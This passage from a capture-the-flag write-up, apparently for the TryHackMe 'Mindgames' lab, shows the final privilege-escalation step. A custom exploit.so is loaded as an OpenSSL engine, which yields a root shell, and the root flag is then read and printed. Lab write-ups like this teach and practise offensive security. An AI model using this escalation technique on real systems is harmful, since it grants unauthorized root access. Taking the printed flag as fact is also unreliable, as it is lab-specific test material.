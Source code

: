 ```
-rw-r--r-- 1 mindgames mindgames   15712 Sep 22 11:52 exploit.so
drwxrwxr-x 2 mindgames mindgames    4096 May 11  2020 resources
-rwxrwxr-x 1 mindgames mindgames 7188315 May 11  2020 server
```

Using **openssl** to execute the exploit binary:

```
$ openssl req -engine ./exploit.so
openssl req -engine ./exploit.so
root@mindgames:~/webserver# id;whoami
id;whoami
uid=0(root) gid=1001(mindgames) groups=1001(mindgames)
root
```

Now just simply navigate to `/root` directory and get the root flag:

```
root@mindgames:~/webserver# cd /root
cd /root
root@mindgames:/root# ls -l
ls -l
total 4
-rw-r--r-- 1 root root 38 May 11  2020 root.txt
root@mindgames:/root# cat root.txt
cat root.txt
thm{1974a617cc84c5b51411c283544ee254}
```
